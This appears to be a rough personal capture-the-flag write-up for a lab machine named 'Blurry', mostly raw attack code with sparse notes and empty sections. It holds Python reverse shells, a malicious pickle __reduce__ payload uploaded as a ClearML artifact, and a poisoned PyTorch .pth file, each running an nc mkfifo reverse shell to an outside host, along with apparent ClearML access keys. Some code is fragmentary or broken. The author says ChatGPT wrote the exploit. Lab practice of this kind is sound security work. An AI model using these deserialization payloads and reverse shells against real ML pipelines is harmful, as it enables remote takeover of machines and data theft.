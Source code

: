 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings

## External
### Enumeration
![](https://i.imgur.com/cnzew07.png)
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.21",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")

#!/usr/bin/python3

import socket,subprocess,os
import pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.21",8000))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

print(os.system('whoami'))
pty.spawn("/bin/bash")


api.api_server = http://api.blurry.htb

api.web_server = http://app.blurry.htb

api.files_server = http://files.blurry.htb

api.credentials.access_key = 8TL83TDO2YXCQ4789DE4
==============

api.web_server = https://app.community.clear.ml

api.api_server = https://api.community.clear.ml

api.files_server = https://files.community.clear.ml

api.credentials.access_key = T1RYD584943ZPXZ4JS6D

data: rawdata.csv

user: root

password: password


from clearml import Task

task = Task.get_task(task_id='')
artifcat = task.artifacts.get('pickle_artifact')
pickle_local_path = artifact.get()

import pickle,os
class RunCommand:
			def __reduce__(self):


import os
import pickle
from clearml import Task
class RunCommand:
    def __reduce__(self):
        return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.21 8003 >/tmp/f',))
command = RunCommand()
task = Task.init(project_name='Black Swan', task_name='pickle_artifacts')
task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True)
```
### Gaining Access
https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/
![](https://i.imgur.com/88T96VD.png)
- The blog video gives u hint and based on that i made Chat GPT to write for me
![](https://i.imgur.com/kigLHOI.png)
![](https://i.imgur.com/n807tac.jpeg)

- Then i cloned 1 of the tasks and i pasted my code inside. after setting up the clearml on my localmachine.
![](https://i.imgur.com/kjFiPNF.png)
![](https://i.imgur.com/YKhGmM3.png)

## Internal
### Enumeration
`$enum$`

### Gaining Access


### Maintaining Access
![](https://i.imgur.com/IS0KXBA.png)
![](https://i.imgur.com/rRuptdx.png)
`/usr/bin/evaluate_model /models/*.pth`
![](https://i.imgur.com/wvhVmMo.png)
```python
import torch
import pickle

ON_REDUCE = """
global MAGIC_NUMBER
MAGIC_NUMBER = None
import os;os.system(echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.21 8203 >/tmp/f')
"""

class Payload:
    def __reduce__(self):
        return (exec, (ON_REDUCE,))

model = torch.load('demo_model.pth')
torch.serialization.MAGIC_NUMBER = Payload()
torch.save(model, 'evil.pth')
```
![](https://i.imgur.com/fTwd7n9.png)
![](https://i.imgur.com/xPFp72u.jpeg)
- This didnt work then when i try to delet the evaluate file it deleted that means, i can create my oun evaluate script.
![](https://i.imgur.com/9XdjkLF.png)
evaluate_model.py
# Random Notes